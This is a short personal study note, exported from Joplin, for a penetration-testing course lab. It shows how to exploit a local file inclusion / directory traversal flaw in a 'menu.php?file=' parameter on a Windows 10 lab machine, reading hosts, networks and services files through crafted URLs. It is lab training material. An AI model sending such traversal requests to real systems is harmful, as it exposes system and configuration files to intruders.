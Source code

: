 9.4.3.2

# 9.4.3.2
##  9.4.3.2.1. Exploit the directory traversal vulnerability to read arbitrary files on your Windows 10 lab machine.

Browse to the menu page
http://192.168.214.10/menu.php?file=current_menu.php
![9f659bbe6d0d635f17b793cdf4a4c849.png](:/325fb497865847b38f6c47372aa81f77)

Test for LFI by replacing 'current_menu.php' with 'old.php'
http://192.168.214.10/menu.php?file=old.php
![d09b49361301f468f29252588e78f454.png](:/e38f6975b3634e8697c9e89374f56a79)

Instead of old.php, try putting typical Windows path\file name
http://192.168.214.10/menu.php?file=c:\windows\system32\drivers\etc\hosts
![b908221d4972ab1da865601ce6a03080.png](:/baffdb6b2bab436ca7b4456164a90505)

http://192.168.214.10/menu.php?file=c:\windows\system32\drivers\etc\networks
![20937d5439ddf9c12d23a9bea1e77f61.png](:/840972cc6543490cafaa75b5ea320cd0)

http://192.168.214.10/menu.php?file=c:\windows\system32\drivers\etc\services
![a6a58ab885882c593a01643ee0a572a8.png](:/f3710684a7f14598bf6a4f32446a4273)


id: 3daa967ed7a44c92939b0c38c69d1c5f
parent_id: 682d64f49c3c45d983babcec663923fc
created_time: 2020-10-02T21:18:49.508Z
updated_time: 2020-10-02T21:18:56.670Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-02T21:18:49.508Z
user_updated_time: 2020-10-02T21:18:56.670Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1